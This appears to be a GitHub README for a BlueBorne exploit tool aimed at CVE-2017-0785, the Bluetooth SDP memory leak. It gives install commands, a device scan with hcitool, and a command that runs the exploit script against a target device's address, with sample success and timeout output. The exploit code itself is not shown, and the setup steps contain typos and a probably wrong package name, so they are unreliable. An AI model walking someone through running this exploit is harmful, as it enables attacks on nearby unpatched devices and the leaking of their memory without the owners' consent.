 # BlueBorn
CVE-2017-0785


## Archlinux installation

paru -S python-pybluez-git bluez-utils-compat pyhton3 python3-pip

sudo pip install pwn

## TUTORIALS

### Discovery

  hcitool scan
  Scanning ...
        XX:XX:XX:XX:XX:XX       Device 1
        XX:XX:XX:XX:XX:XX       Device 2

### Use the exploit

  python CVE-2017-0785.py TARGET=XX:XX:XX:XX:XX
  [V] Exploit: Done!

  python CVE-2017-0785.py TARGET=XX:XX:XX:XX:XX ==> FAILED EXEMPLE
  [◒] Exploit: Connecting to target
  Traceback (most recent call last):
    File "<string>", line 3, in connect
  _bluetooth.error: (110, 'Connection timed out')

  During handling of the above exception, another exception occurred:

  Traceback (most recent call last):
    File "/opt/Hacking-tools/Bluetooth/CVE-2017-0785/CVE-2017-0785.py", line 31, in <module>
      sock.connect((target, 1))
    File "<string>", line 5, in connect
  bluetooth.btcommon.BluetoothError: [Errno 110] Connection timed out

